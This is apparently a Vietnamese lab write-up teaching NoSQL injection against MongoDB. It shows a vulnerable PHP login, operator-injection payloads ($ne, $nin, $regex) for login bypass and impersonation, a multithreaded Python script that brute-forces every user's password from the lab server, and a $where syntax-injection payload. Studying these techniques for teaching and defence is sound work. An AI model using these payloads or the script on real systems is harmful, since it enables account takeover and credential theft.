# **NoSQL Injection**
## **1. What is NoSQL**
### **MongoDB**
**MongoDB** cũng giống như những hệ cơ sở dữ liệu quan hệ khác như **MySQL, PortgreSQL, MariaDB**, nhưng có điểm khác là nó lưu trữ dữ liệu trên tài liệu chứ không lưu trữ dạng bảng

Ví dụ một trang web có thể lưu trữ thông tin ứng viên có cấu trúc:
```json
{"_id" : ObjectId("5f077332de2cdf808d26cd74"), "username" : "lphillips", "first_name" : "Logan", "last_name" : "Phillips", "age" : "65", "email" : "lphillips@example.com" }
```

MongoDB cho phép bạn nhóm nhiều document có chức năng/tính chất tương tự nhau vào một cấu trúc cấp cao hơn gọi là `collection`, nhằm mục đích tổ chức dữ liệu. `Collection` tương đương với `table` trong cơ sở dữ liệu quan hệ (relational database)



### **Querying the Database**


- `['last_name' => 'Sandler']`: mệnh đề đề tìm kiếm trường `last_name` có giá trị là `Sandler`
- `['gender' => 'male', 'last_name' => 'Phillips']`: mệnh đề tìm kiếm kết hợp 2 trường thỏa mãn là `gender` và `last_name`
- `['age' => ['$lt'=>'50']]`: mảng lồng tìm kiếm trường `age` có giá trị nhỏ hơn `50`, `$lt` có nghĩa là **less than**


## **2. NoSQL injection**
### **Injection is Injection**
- **Syntax Injection**: tương tự như SQLi, nó phá vỡ cấu trúc câu lệnh, tuy nhiên khá là khó để bắt gặp trường hợp này bởi vì những thư viện có những cơ chế để phòng chống việc chèn câu lệnh
- **Operator Injection**: chèn toán tử

### **How to Inject NoSQL**
```php
<?php
$con = new MongoDB\Driver\Manager("mongodb://localhost:27017");


if(isset($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
        $user = $_POST['user'];
        $pass = $_POST['pass'];

        $q = new MongoDB\Driver\Query(['username'=>$user, 'password'=>$pass]);
        $record = $con->executeQuery('myapp.login', $q );
        $record = iterator_to_array($record);

        if(sizeof($record)>0){
                $usr = $record[0];

                session_start();
                $_SESSION['loggedin'] = true;
                $_SESSION['uid'] = $usr->username;

                header('Location: /sekr3tPl4ce.php');
                die();
        }
}
header('Location: /?err=1');

?>
```

Phần này cho ta biết web sử dụng **myapp** DB và collection **login**, request sẽ được chấp nhận và trả về nếu nó pass được điều kiện `['username'=>$user, 'password'=>$pass]`\
Bằng một cách nào đó, ta điền input vào 2 trường dữ liệu của POST với dữ liệu $user = `['$ne'=>'xxxx']` và `$pass = ['$ne'=>'yyyy']`, kết quả của câu truy vấn là `['username'=>['$ne'=>'xxxx'], 'password'=>['$ne'=>'yyyy']]`\
Câu truy vấn trên có nghĩa là tìm user nào mà không bằng `xxxx` và password không bằng `yyyy`, nếu thực sự dữ liệu đó không tồn tại, nó sẽ thỏa mãn và trả về dữ liệu của người dùng đầu tiên trong collection **login**\
Ta có thể dùng `user[$ne]=xxxx&pass[$ne]=yyyy` cho kết quả tương tự

## **3. Operator Injection: Bypass the Login Screen**



Khi thực hiện đăng nhập với user/pass bất kì, web đã trả về `Invalid user/password`\
Thực hiện xem request trong Burp, ta thấy data có dạng `user=123&pass=123&remember=on`



Ta thực hiện chèn toán tử `$ne` bằng data: `user=['$ne'=>'xxxx']&pass=['$ne'=>'yyyy']&remember=on`, nhưng kết quả là vẫn không được 




Thực hiện chèn bằng data: `user[$ne]=123abc&pass[$ne]=123bcd&remember=on`\
Ta đã được chuyển hướng đến `/sekr3tPl4ce.php`






## **4. Operator Injection: Logging in as Other Users**
### **Logging in as Other Users**
Khi thực hiện chèn toán tử `$ne`, nếu truy cập thì ta cũng chỉ truy cập được với người dùng đầu tiên trong **collection**, khi muốn truy cập vào người dùng cụ thể, ta có thể vé t cạn bằng toán tử `$nin` = `not in`\
Ví dụ: ta không muốn log vào user **admin** và **judge**, ta có thể dùng payload: `user [$nin][]=admin&pass[$ne]=aweasdf` hoặc `username[$nin][]=admin&username[$nin][]=jude&pass[$ne]=aweasdf`

## **4. Operator Injection: Extracting Users' Passwords**
Trước đó ta đã bypass để có thể đăng nhập vào tài khoản người dùng, nhưng chúng ta cũng thực sự cần mật khẩu của người dùng để có thể tận dụng được những chức năng khác\
Ta có thể dùng toán tử `$regex` để dò thông tin của người dùng: `user=admin&pass[$regex] =^.{7}$`\
Giải thích: dùng toán tử `$regex` để kiểm tra tra bằng biểu thức chính quy: bắt đầu (`^`) bằng một kí tự bất kì (`.`), lặp lại `7` lần, sau đó kết thúc (`$`); biểu thức này kiểm tra độ dài của mật khẩu người dùng

Bây giờ ta sẽ brute-force mật khẩu bằng payload `user=admin&pass[$regex] =^.{number_of_string}$`



Ta nhận được kết quả mật khẩu của người dùng admin có 8 kí tự\
Tiếp theo ta thực hiện brute-force từng kí tự bằng biểu thức chính quy `.`




Như vậy là ta đã lấy được kí đầu của password, tiếp theo ta thực hiện tương tự để lấy 7 kí tự còn lại\
Kết quả là ta nhận được mật khẩu là `admin123`

Mình đã custom 1 PoC để dump hết tất cả các mật khẩu của user

```python
import requests, bs4
from concurrent.futures import ThreadPoolExecutor

ip = '10.49.151.79'

login_url = f'http://{ip}/login.php'

pass_dicts = {}

def check_length_password(username):
    for number in range(1, 15):
        data = {
            'user': username,
            'pass[$regex]': '^.{' + f'{number}' + '}$',
            'remember': 'on'
        }

        response = requests.post(
            url=login_url,
            data=data,
            allow_redirects=False
        )

        if '/?err=1' not in response.headers['Location']:
            return number

def check_each_char(username, l, pos):
    regex_str = '.'*l
    ascii = 'abcdefghijklmnopqrstuvwxyz0123456789'
    for char in ascii:
        pass_str = pass_str = '^' + regex_str[:pos] + char + regex_str[pos+1:] + '$'
        data = {
            'user': username,
            'pass[$regex]': pass_str,
            'remember': 'on',
        }
        response = requests.post(
            url = login_url,
            data=data,
            allow_redirects=False
        )

        if response.headers['Location'] != '/?err=1':
            pass_dicts[pos] = char
            break

def brute_force(username, l):
    with ThreadPoolExecutor(max_workers=100) as executor:
        for pos in range(l):
            executor.submit(check_each_char, username=username, l=l, pos=pos)


def main():
    usernames = ['admin', 'pedro', 'john', 'secret']
    
    # check_each_char(username=username, l=password_length, pos=0)
    for username in usernames:
        password_length=check_length_password(username)
        brute_force(username, password_length)
        # print(pass_dict)
        pass_dict = dict(sorted(pass_dicts.items()))
        for key in pass_dict:
            print(pass_dict[key], end='')
        print()
        pass_dicts.clear()

if __name__=='__main__':
    main()
```

**Kết quả**:



## **5. Syntax Injection: Indentification and Data Extraction**
Một ứng dụng có logic lấy email của user từ username có dạng: 

```python
for x in mycol.find({"$where": "this.username == '" + username + "'"}):
```

Ta có thể thấy được dữ liệu đầu vào của người dùng được nối thẳng đến hàm `find`, kiến nó thực thi câu lệnh tìm kiếm\
Đây là đặc điểm phổ biến của những web có lỗ hổng injection

Attacker có thể khai thác bằng payload: `admin'||1||'`, khi đó truy vấn trở thành `(this.username == 'admin') || 1 || ''`, dấu `||` biểu diễn cho toán tử `OR`, và sau đó là `1` biểu diễn cho mệnh đề `True`, từ đó mệnh đề đằng trước không còn quan trọng đúng sai và nó đã trả về toàn bộ email của người dùng




